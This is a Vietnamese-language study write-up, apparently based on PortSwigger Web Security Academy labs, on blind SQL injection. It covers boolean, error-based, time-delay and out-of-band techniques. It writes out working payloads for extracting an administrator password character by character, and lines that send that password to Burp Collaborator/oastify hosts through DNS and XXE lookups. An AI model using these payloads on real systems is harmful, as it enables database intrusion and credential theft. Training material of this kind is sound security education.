


# Blind SQL injection
Trong phần này, chúng tôi mô tả các kỹ thuật tìm và khai thác các lỗ hổng chèn SQL mù.
## What is blind SQL injection?
Blind SQL injection xảy ra khi một ứng dụng dễ bị tấn công bởi SQL, nhưng các phản hồi HTTP của nó không chứa kết quả của truy vấn SQL liên quan hoặc chi tiết về bất kỳ lỗi cơ sở dữ liệu nào.

Nhiều kỹ thuật như tấn công `UNION` không hiệu quả với các lỗ hổng SQL mù. Điều này là do họ dựa vào khả năng xem kết quả của truy vấn được đưa vào trong các phản hồi của ứng dụng. Vẫn có thể khai thác việc chèn SQL mù để truy cập dữ liệu trái phép, nhưng phải sử dụng các kỹ thuật khác nhau.

## Khai thác blind SQL injection bằng cách kích hoạt các phản hồi có điều kiện
Hãy xem xét một ứng dụng sử dụng cookie theo dõi để thu thập phân tích về việc sử dụng. Các yêu cầu đối với ứng dụng bao gồm tiêu đề cookie như thế này:\
`Cookie: TrackingId=u5YD3PapBcR4lN3e7Tj4`\
Khi yêu cầu chứa cookie `TrackingId` được xử lý, ứng dụng sẽ sử dụng truy vấn SQL để xác định xem đây có phải là người dùng đã biết hay không:\
`SELECT TrackingId FROM TrackedUsers WHERE TrackingId = 'u5YD3PapBcR4lN3e7Tj4'`\
Truy vấn này dễ bị tấn công bởi SQLi, nhưng kết quả từ truy vấn không được trả về cho người dùng. Tuy nhiên, ứng dụng hoạt động khác nhau tùy thuộc vào việc truy vấn có trả về bất kỳ dữ liệu nào hay không. Nếu bạn gửi `TrackingId` đúng, truy vấn sẽ trả về dữ liệu và bạn nhận được thông báo "Welcome back" trong phản hồi.

Hành vi này đủ để có thể khai thác lỗ hổng blind SQL. Bạn có thể truy xuất thông tin bằng cách kích hoạt các phản hồi khác nhau có điều kiện, tùy thuộc vào điều kiện được chèn.\
Để hiểu cách khai thác này hoạt động, giả sử lần lượt hai yêu cầu được gửi chứa các giá trị cookie `TrackingId` sau:
```
…xyz' AND '1'='1
…xyz' AND '1'='2
```
- Giá trị đầu tiên trong số này khiến truy vấn trả về kết quả vì điều kiện `AND '1'='1` được chèn là đúng. Kết quả là thông báo "Welcome back" được hiển thị.
- Giá trị thứ hai khiến truy vấn không trả về bất kỳ kết quả nào vì điều kiện được chèn là sai. Thông báo "Welcome back" không được hiển thị.

Điều này cho phép chúng tôi xác định câu trả lời cho bất kỳ điều kiện nào được đưa vào và trích xuất dữ liệu từng phần một.

Ví dụ: giả sử có một bảng `Users` với các cột `username` và `password` và một người dùng có tên `Administrator`. Bạn có thể xác định mật khẩu cho người dùng này bằng cách gửi một loạt thông tin đầu vào để kiểm tra mật khẩu từng ký tự một.\
Để thực hiện việc này, hãy bắt đầu với thông tin đầu vào sau:\
`xyz' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) > 'm`\
Thao tác này trả về thông báo "Welcome back", cho biết điều kiện được đưa vào là đúng và do đó ký tự đầu tiên của mật khẩu lớn hơn `m`.\
Tiếp theo, chúng tôi gửi đầu vào sau:\
`xyz' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) > 't`\
Thao tác này không trả về thông báo "Welcome back", cho biết điều kiện được đưa vào là sai và do đó ký tự đầu tiên của mật khẩu không lớn hơn `t`.\
Cuối cùng, chúng tôi gửi thông tin đầu vào sau để trả về thông báo "Welcome back", qua đó xác nhận rằng ký tự đầu tiên của mật khẩu là `s`:\
`xyz' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) = 's`\
Chúng tôi có thể tiếp tục quá trình này để xác định một cách có hệ thống mật khẩu đầy đủ cho người dùng Administrator.

Ví dụ: https://portswigger.net/web-security/sql-injection/blind/lab-conditional-responses

Đầu tiên xác định có lỗ hổng blind SQL: 
Khi truy cập bình thường sẽ được cấp 1 cookie và sẽ nhận được response `Welcome back`\


Sửa thành 1 cookie ko có sẵn: 

Vậy nếu đúng sẽ trả về `Welcome back` còn ko đúng thì ko có.

Khi sửa payload thành: `TrackingId=lEOcCRIyVqveTM8F' AND '1'='1`\


Còn khi payload là: `TrackingId=lEOcCRIyVqveTM8F' AND '1'='2`\


Ta check được điều kiện đúng và sai.

Tiếp theo ta kiểm tra xem có bảng `Users` không


Tiếp theo ta check xem có user `administrator` không: 


Tiếp theo là kiểm tra xem chiều dài password là bao nhiêu: 


Tiếp đến ta sẽ cần đoán lần lượt các kí tự của password, sử dụng intruder: 
Dùng payload: `TrackingId=lEOcCRIyVqveTM8F' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='administrator')='a;`

Ta thay đổi lần lượt kí tự dự đoán và vị trí của nó bằng intruder:


Set thêm grep match để dễ nhận biết response:


Pass: u18kj94yqsqaeat2gdxg

## Error-based SQL injection
SQL dựa trên lỗi đề cập đến trường hợp bạn có thể sử dụng thông báo lỗi để trích xuất hoặc suy ra dữ liệu nhạy cảm từ cơ sở dữ liệu, ngay cả blind SQL. Các khả năng có thể xảy ra tùy thuộc vào cấu hình của cơ sở dữ liệu và loại lỗi bạn có thể gây ra:
- Bạn có thể khiến ứng dụng trả về phản hồi lỗi cụ thể dựa trên kết quả của biểu thức boolean. Bạn có thể khai thác điều này theo cách tương tự như các câu trả lời có điều kiện mà chúng ta đã xem xét ở phần trước. Để biết thêm thông tin, hãy xem **Khai thác tính năng chèn SQL mù bằng cách kích hoạt các lỗi có điều kiện**.
- Bạn có thể kích hoạt các thông báo lỗi xuất dữ liệu được truy vấn trả về. Điều này có hiệu quả biến các lỗ hổng chèn SQL mù thành các lỗ hổng có thể nhìn thấy được. Để biết thêm thông tin, hãy xem **Trích xuất dữ liệu nhạy cảm qua thông báo lỗi SQL dài dòng**.

### Khai thác tính năng chèn SQL mù bằng cách kích hoạt các lỗi có điều kiện
Một số ứng dụng thực hiện truy vấn SQL nhưng hành vi của chúng không thay đổi, bất kể truy vấn có trả về dữ liệu nào hay không. Kỹ thuật trong phần trước sẽ không hoạt động vì việc chèn các điều kiện boolean khác nhau không tạo ra sự khác biệt nào đối với phản hồi của ứng dụng.\
Có thể khiến ứng dụng trả về một phản hồi khác tùy thuộc vào việc có xảy ra lỗi SQL hay không. Bạn có thể sửa đổi truy vấn để nó **chỉ gây ra lỗi** cơ sở dữ liệu **nếu điều kiện là đúng**. Thường thì một lỗi chưa được xử lý do cơ sở dữ liệu đưa ra sẽ gây ra một số khác biệt trong phản hồi của ứng dụng, chẳng hạn như thông báo lỗi. Điều này cho phép bạn suy ra sự thật của tình trạng được tiêm.\
Để xem cách thức hoạt động của tính năng này, giả sử lần lượt hai yêu cầu được gửi chứa các giá trị cookie `TrackingId` sau:
```
xyz' AND (SELECT CASE WHEN (1=2) THEN 1/0 ELSE 'a' END)='a
xyz' AND (SELECT CASE WHEN (1=1) THEN 1/0 ELSE 'a' END)='a
```
Những đầu vào này sử dụng từ khóa `CASE` để kiểm tra một điều kiện và trả về một biểu thức khác tùy thuộc vào biểu thức đó có đúng hay không:
- Với dữ liệu đầu vào đầu tiên, biểu thức `CASE` ước tính là 'a', điều này không gây ra bất kỳ lỗi nào.
- Với đầu vào thứ hai, nó đánh giá là `1/0`, gây ra lỗi chia cho 0.

Nếu lỗi gây ra sự khác biệt trong phản hồi HTTP của ứng dụng, bạn có thể sử dụng lỗi này để xác định xem điều kiện được đưa vào có đúng hay không.\
Sử dụng kỹ thuật này, bạn có thể truy xuất dữ liệu bằng cách kiểm tra từng ký tự một:\
`xyz' AND (SELECT CASE WHEN (Username = 'Administrator' AND SUBSTRING(Password, 1, 1) > 'm') THEN 1/0 ELSE 'a' END FROM Users)='a`

Ví dụ: https://portswigger.net/web-security/sql-injection/blind/lab-conditional-errors


Thử sửa cookie không tồn tại thì vẫn không có phản hồi lỗi: 


Thêm `'` thì đã báo lỗi:


Với `''` thì lại không báo lỗi, vậy ở đây hệ thống sẽ báo lỗi khi bị thừa ra 1 dấu `'`:


Xác định đây là SQLi với đủ dấu `'` và tên bảng đúng thì kết quả ko có lỗi còn tên bảng ko tồn tại thì báo lỗi => SQL
\


Kiểm tra bảng `Users` tồn tại: 


Thêm điều kiện để kiểm tra phản hồi: 



Vậy là ta có thể dùng `CASE` để kiểm tra điều kiện trong đó.


Giai thích: vì `(1=1)` đúng và điều kiện sau `WHERE` đúng nên nó sẽ thực hiện `(1/0)` gây lỗi, với 1 tên user ko tồn tại thì nó trả về `''` thì chương trình sẽ hoạt động bình thường

Tiếp tục kiểm tra độ dài password, vì thay `(1=1)` ở đây là điều kiện độ dài password, và nó sẽ phản hồi lồi khi phép so sánh này đúng\


Tiếp tục cho thử lần lượt các kí tự để tìm lần lượt password với cookie dạng dưới và cho vào intruder để quét:
`TrackingId=cVuK0gGOTJ6stVqe'||(SELECT CASE WHEN SUBSTR(password,1,1)='a' THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'`

Chọn `Cluster bomb` để sử dụng 2 payload riêng, và chọn 2 đoạn cần thay thế:


Payload 1 để dạng number đoán từng kí tự: 


Payload 2:


Set thêm `grep match` để dễ nhận dạng: 


Password: qsq2v6lpn773ujztcja8

### Trích xuất dữ liệu nhạy cảm thông qua các thông báo lỗi SQL dài dòng
Cấu hình cơ sở dữ liệu sai đôi khi dẫn đến các thông báo lỗi dài dòng. Chúng có thể cung cấp thông tin có thể hữu ích cho kẻ tấn công. Ví dụ: hãy xem xét thông báo lỗi sau, xảy ra sau khi đưa một trích dẫn vào tham số `id`:\
`Unterminated string literal started at position 52 in SQL SELECT * FROM tracking WHERE id = '''. Expected char`\
Điều này hiển thị toàn bộ truy vấn mà ứng dụng đã tạo bằng dữ liệu đầu vào của chúng tôi. Chúng ta có thể thấy rằng trong trường hợp này, chúng ta đang chèn vào một dấu nháy đơn bên trong câu lệnh `WHERE`. Điều này giúp việc xây dựng một truy vấn hợp lệ có chứa tải trọng độc hại trở nên dễ dàng hơn. Việc comment phần còn lại của truy vấn sẽ ngăn trích dẫn đơn thừa không phá vỡ cú pháp.\
Đôi khi, bạn có thể khiến ứng dụng tạo ra thông báo lỗi có chứa một số dữ liệu được truy vấn trả về. Điều này có hiệu quả biến lỗ hổng chèn SQL mù thành lỗ hổng có thể nhìn thấy được.\
Bạn có thể sử dụng hàm `CAST()` để đạt được điều này. Nó cho phép bạn chuyển đổi loại dữ liệu này sang loại dữ liệu khác. Ví dụ: hãy tưởng tượng một truy vấn chứa câu lệnh sau:\
`CAST((SELECT example_column FROM example_table) AS int)`\
Thông thường, dữ liệu bạn đang cố đọc là một chuỗi. Việc cố gắng chuyển đổi dữ liệu này thành kiểu dữ liệu không tương thích, chẳng hạn như `int`, có thể gây ra lỗi tương tự như sau:\
`ERROR: invalid input syntax for type integer: "Example data"`\
Loại truy vấn này cũng có thể hữu ích nếu giới hạn ký tự ngăn cản bạn kích hoạt phản hồi có điều kiện.

Ví dụ: https://portswigger.net/web-security/sql-injection/blind/lab-sql-injection-visible-error-based

Thêm `'` và nó đã báo lỗi câu lệnh truy vấn: 


Thêm `'--` thì không còn lỗi, chứng tỏ đã đúng về cú pháp.
 
Dùng `CAST` để chuyển dữ liệu và trả về:


Nhưng nếu để câu select dài hơn thì nó đang hiển thị kết quả bị cắt


Xóa cookie đi để cho câu query ngắn lại và thông báo lỗi mới xuất hiện, có vẻ là kết quả đang trả về nhiều dòng:


Thêm `LIMIT 1` để nhận trả về hàng đầu tiên, thì đã ra kết quả `Administrator`


Tương tự để lấy password:


Password: t7wjj4o4mw099bkurfvd

### Khai thác Blind SQL bằng cách kích hoạt độ trễ thời gian
Nếu ứng dụng phát hiện được lỗi cơ sở dữ liệu khi thực thi truy vấn SQL và xử lý chúng một cách khéo léo thì sẽ không có bất kỳ sự khác biệt nào trong phản hồi của ứng dụng. Điều này có nghĩa là kỹ thuật gây ra lỗi có điều kiện trước đó sẽ không hiệu quả.\
Trong tình huống này, thường có thể khai thác lỗ hổng chèn SQL mù bằng cách kích hoạt độ trễ thời gian tùy thuộc vào điều kiện được chèn là đúng hay sai. Vì các truy vấn SQL thường được ứng dụng xử lý đồng bộ nên việc trì hoãn việc thực thi truy vấn SQL cũng làm trì hoãn phản hồi HTTP. Điều này cho phép bạn xác định tính xác thực của điều kiện được chèn dựa trên thời gian cần thiết để nhận được phản hồi HTTP.\
Các kỹ thuật kích hoạt độ trễ thời gian dành riêng cho loại cơ sở dữ liệu đang được sử dụng. Ví dụ: trên Microsoft SQL Server, bạn có thể sử dụng cách sau để kiểm tra một điều kiện và kích hoạt độ trễ tùy thuộc vào biểu thức có đúng hay không:
```
'; IF (1=2) WAITFOR DELAY '0:0:10'--
'; IF (1=1) WAITFOR DELAY '0:0:10'--
```
- Đầu vào đầu tiên trong số này không gây ra độ trễ vì điều kiện `1=2` là sai.
- Đầu vào thứ hai kích hoạt độ trễ 10 giây, vì điều kiện `1=1` là đúng.

Sử dụng kỹ thuật này, chúng ta có thể truy xuất dữ liệu bằng cách kiểm tra từng ký tự một:\
`'; IF (SELECT COUNT(Username) FROM Users WHERE Username = 'Administrator' AND SUBSTRING(Password, 1, 1) > 'm') = 1 WAITFOR DELAY '0:0:{delay}'--`

Ví dụ: https://portswigger.net/web-security/sql-injection/blind/lab-time-delays

Nhận xét: ta thấy khi thêm `'` hay bất cứ thao tác nào để phá vỡ cấu trúc câu truy vấn đều không báo lỗi, nên phải tiêm thẳng Sleep để xem dấu hiệu phản hồi.\


Ví dụ: https://portswigger.net/web-security/sql-injection/blind/lab-time-delays-info-retrieval

Lưu ý việc phải URL encode khi ở cookie:\


Nếu điều kiện sai thì sẽ không sleep:\


Kiểm tra xem có username: `administrator` ko;


Kiểm tra độ dài password:


Cuối cùng là đưa vào intruder để tìm password với cookie dạng: 
`TrackingId=x'%3BSELECT+CASE+WHEN+(username='administrator'+AND+SUBSTRING(password,1,1)='a')+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--`


Password: 4m6184iw1b9nthw0sexg

### Khai thác blind SQLi bằng kỹ thuật out-of-band (OAST)
Một ứng dụng có thể thực hiện cùng một truy vấn SQL như ví dụ trước nhưng thực hiện không đồng bộ. Ứng dụng tiếp tục xử lý yêu cầu của người dùng trong luồng gốc và sử dụng một luồng khác để thực thi truy vấn SQL bằng cookie theo dõi. Truy vấn vẫn dễ bị tấn công bởi SQL injection nhưng không có kỹ thuật nào được mô tả cho đến nay sẽ hoạt động. Phản hồi của ứng dụng không phụ thuộc vào truy vấn trả về bất kỳ dữ liệu nào, lỗi cơ sở dữ liệu xảy ra hoặc vào thời gian thực hiện truy vấn.\
Trong tình huống này, thường có thể khai thác lỗ hổng chèn SQL mù bằng cách kích hoạt các tương tác mạng ngoài băng tần với hệ thống mà bạn kiểm soát. Chúng có thể được kích hoạt dựa trên điều kiện được đưa vào để suy ra từng thông tin một. Hữu ích hơn, dữ liệu có thể được lọc trực tiếp trong tương tác mạng.\
Nhiều giao thức mạng có thể được sử dụng cho mục đích này, nhưng thông thường hiệu quả nhất là DNS (dịch vụ tên miền). Nhiều mạng sản xuất cho phép truy cập DNS miễn phí vì chúng cần thiết cho hoạt động bình thường của hệ thống sản xuất.\
Công cụ dễ dàng và đáng tin cậy nhất để sử dụng các kỹ thuật ngoài băng tần là *Burp Collaborator*. Đây là máy chủ cung cấp khả năng triển khai tùy chỉnh các dịch vụ mạng khác nhau, bao gồm cả DNS. Nó cho phép bạn phát hiện khi nào các tương tác mạng xảy ra do gửi tải trọng riêng lẻ đến một ứng dụng dễ bị tấn công. Burp Suite Professional bao gồm một ứng dụng khách tích hợp được định cấu hình để hoạt động với Burp Collaborator ngay lập tức. Để biết thêm thông tin, hãy xem tài liệu dành cho Cộng tác viên Burp.\
Các kỹ thuật kích hoạt truy vấn DNS dành riêng cho loại cơ sở dữ liệu đang được sử dụng. Ví dụ: đầu vào sau trên Microsoft SQL Server có thể được sử dụng để thực hiện tra cứu DNS trên một miền được chỉ định:\
`'; exec master..xp_dirtree '//0efdymgw1o5w9inae8mg4dfrgim9ay.burpcollaborator.net/a'--`\
Điều này khiến cơ sở dữ liệu thực hiện tra cứu tên miền sau:\
`0efdymgw1o5w9inae8mg4dfrgim9ay.burpcollaborator.net`

Ví dụ: https://portswigger.net/web-security/sql-injection/blind/lab-out-of-band

`' UNION SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://bfuzt0sa9rrb5wjcdvy0p10offl69wxl.oastify.com/"> %remote;]>'),'/l') FROM dual--`

hoặc: `' || (SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://bfuzt0sa9rrb5wjcdvy0p10offl69wxl.oastify.com/"> %remote;]>'),'/l') FROM dual)--`

Sau khi xác nhận cách kích hoạt các tương tác ngoài băng tần, bạn có thể sử dụng kênh ngoài băng tần để lọc dữ liệu khỏi ứng dụng dễ bị tấn công. Ví dụ:\
`'; declare @p varchar(1024);set @p=(SELECT password FROM users WHERE username='Administrator');exec('master..xp_dirtree "//'+@p+'.cwcsgt05ikji0n1f2qlzn5118sek29.burpcollaborator.net/a"')--`\
Đầu vào này sẽ đọc mật khẩu cho người dùng Administrator, nối thêm vào Collaborator subdomain và kích hoạt tra cứu DNS. Tra cứu này cho phép bạn xem mật khẩu đã chụp:\
`S3cure.cwcsgt05ikji0n1f2qlzn5118sek29.burpcollaborator.net`\
Các kỹ thuật ngoài băng tần (OAST) là một cách mạnh mẽ để phát hiện và khai thác việc chèn SQL mù, nhờ khả năng thành công cao và khả năng lọc trực tiếp dữ liệu trong kênh ngoài băng tần. Vì lý do này, kỹ thuật OAST thường được ưu tiên hơn ngay cả trong những tình huống mà các kỹ thuật khai thác mù quáng khác hoạt động hiệu quả.

Ví dụ: https://portswigger.net/web-security/sql-injection/blind/lab-out-of-band-data-exfiltration

Kiểm tra xem có bắn gói tin ra DNS được ko: 
Payload: `'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//bfuzt0sa9rrb5wjcdvy0p10offl69wxl.oastify.com/">+%25remote%3b]>'),'/l')+FROM+dual--`\


Thay đổi URL:
`"http%3a//'||(SELECT+password+FROM+users+WHERE+username%3d'administrator')||'.BURP-COLLABORATOR-SUBDOMAIN/"`

Thành: `'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//'||(SELECT+password+FROM+users+WHERE+username%3d'administrator')||'.bfuzt0sa9rrb5wjcdvy0p10offl69wxl.oastify.com/">+%25remote%3b]>'),'/l')+FROM+dual--`


Password: tbpaj1vqri4kbayz7st8


